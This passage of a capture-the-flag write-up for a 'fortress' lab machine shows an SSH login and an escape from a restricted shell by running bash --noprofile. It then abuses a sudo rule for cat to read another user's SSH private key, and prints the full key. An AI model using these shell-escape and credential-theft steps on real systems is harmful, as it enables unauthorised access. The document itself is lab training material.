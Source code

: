 We logged in as hardy.

```bash
dking@dking ~/Downloads$ ssh -i id_rsa h4rdy@fortress.thm
```

We are however dropped into a restricted shell, and can pretty much not do anything.

SO i just issued "bash" with the login cmd:

```bash
ssh -i id_rsa h4rdy@fortress.thm "bash --noprofile"
export PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:$PATH
```

And it worked

### Priv Esc to j4xon

`sudo -l` - we can execute `cat` as j4xon user.

We can try to read his ssh private key.

```
h4rdy@fortress:~$ sudo -u j4x0n /bin/cat /home/j4x0n/.ssh/id_rsa
sudo -u j4x0n /bin/cat /home/j4x0n/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAos93HTD06dDQA+pA9T/TQEwGmd5VMsq/NwBm/BrJTpfpn8av0Wzm
r8SKav7d7rtx/GZWuvj2EtP6DljnqhbpMEi05iAIBCEUHw+blPBd4em6J1LB38mdPiDRgy
pCfhRWTKsP8AJQQtPT1Kcb2to9pTkMenFVU3l2Uq9u5VviQu+FB/ED+65LYnw/uoojBzZx
W80eLpyvY1KyALbDKHuGFbJ3ufRQfoUz2qmHn5aOgrnUTH4xrVQkVbsrnI3nQLIJDIS94J
zH0U1nca2XBwRzhBc0f0Hpr61GKDFjzdsNEtfHK7NuO7wWQMiCvODXEPTMBwpoMhTfYJxo
h5kbE5QhNQENT2iEs0aRrk0OX/mURj3GrsRpLYlGIX9bKpwPlW+d9MquLdYlHxsWBIuv3x
esyHTvDMuEWvb6WhaW4A8taEPx2qWuNbH9T/G8hSgKmws0ioT+FNY5P1+s+e6SYeImOsrW
wEvzLr1LCcLbdthoDcFy1oYx5NxmpyYal+YwdNyfAAAFiP2Xirb9l4q2AAAAB3NzaC1yc2
EAAAGBAKLPdx0w9OnQ0APqQPU/00BMBpneVTLKvzcAZvwayU6X6Z/Gr9Fs5q/Eimr+3e67
cfxmVrr49hLT+g5Y56oW6TBItOYgCAQhFB8Pm5TwXeHpuidSwd/JnT4g0YMqQn4UVkyrD/
ACUELT09SnG9raPaU5DHpxVVN5dlKvbuVb4kLvhQfxA/uuS2J8P7qKIwc2cVvNHi6cr2NS
sgC2wyh7hhWyd7n0UH6FM9qph5+WjoK51Ex+Ma1UJFW7K5yN50CyCQyEveCcx9FNZ3Gtlw
cEc4QXNH9B6a+tRigxY83bDRLXxyuzbju8FkDIgrzg1xD0zAcKaDIU32CcaIeZGxOUITUB
DU9ohLNGka5NDl/5lEY9xq7EaS2JRiF/WyqcD5VvnfTKri3WJR8bFgSLr98XrMh07wzLhF
r2+loWluAPLWhD8dqlrjWx/U/xvIUoCpsLNIqE/hTWOT9frPnukmHiJjrK1sBL8y69SwnC
23bYaA3BctaGMeTcZqcmGpfmMHTcnwAAAAMBAAEAAAGANz/wTBexBSe3b5yvLoraRZeHJf
AtOW9UNHYOfL8aUXF79pyWTZuHLV6lGmojJkC2DdEs3YZe+0S0Nuo0s6PSvm/t86orDjur
eF7zjTeEpIWMhouu/yKMGelJMBnHNsHwB1SFtA0U75iy6hdLfJlTEh6p/WM4cXtmi+i82V
i1D8H4gxlnIKGlM2a2ubbm7CutjFmvRGInoq0NevCKidJhTjuiJZijOEw7rJibTazp77Lg
OJUahpdnPTCnPBlrwKipnuQQ5/+RR7bmzyIiohadpaAv8RKcguH7wXaKGlGx+TrTVGn1Lo
WJdgnAvgEj5/K8UH29PC8wZBclIdwPe4aLAvTmAabVfIM7Gd4KyEM9Djcomo/dVB/qiFyX
PzHgt1StaVwy9hj+3kMUD7VmqQ2PnHQ/+5q7iOJOw9hFbwBYwRnzUoZynQzco50Kba7m5n
QKSRopfS5+gdZHDBy+v+jAmFjYA9QQkX+sJPaWbN69/do/IhWe6LfKC8gEyY/YRhkBAAAA
wANf0XmyYxevEjQczs5hpOdyAtv3NpoNxtFtiY3jsTOcfp/kyeRNk1MLFxv/Gf0Tn9GgiU
HpYfBOEdmv12UktShoqyFaAFj4VqDV/yHkvCg6pQz0A2XFRHlAlJRJ1Zy7Ikjt2TPu7j3U
9F1S7GH8KrVqHkiqhWmjxFHk3/R5u2HBG9V9eeP00WiHnRpZKJk2c/bHeUdOKUc9bVzC9A
OW7EGDleXvm7Z3cAZKgtHophpqvHjXt8f0oFQuFoLRWqlYJwAAAMEAzj9MAslAc0OoVF5P
kW4oGXnXLXYYAMacdc4J5DYeq18e1z/3fQ5h5fa25BgBJly5TLMs9m31sNG8FpchyEFMLu
mwDihPU8qwHhDJGkdvh/zCrfe07ujQvmnuenlFUGdgiQp0OPZgywFmuk+aaD59W1MRGcJe
cnNGvDhR/NMJ0YBfv029YdzwOgBtNqw7BSqyOS3mepKeE3bljs5LAa5gzMKK2S3BxK8boj
nFbP+PbGqbSogz+v28J/a1zOdLnio7AAAAwQDKFb8UhSYKVFp8m7DB6Ysu97quOLFjxqHs
AfmUmtgtfmgP+FN4YqeDfBP0BTjli4AW3Sas9ZgPeYgORwXqMflhcSMqQ/5zdVjw0iI09X
1QQR8Og910EY5W2KbvYuIbKbRrRZwYGPzJNjRqK/zNi4yAnDLayShx7p4ujAVy0rP2r9A2
rDuPscM6HPszTYfhci5eLlw25zN6fvYruh9DwNd3UQpgKh0XW+7kAThBOTpH67AtFqjYS9
k8ToMpypFXDO0AAAAOajR4MG5AMHZlcmZsYXcBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----

```
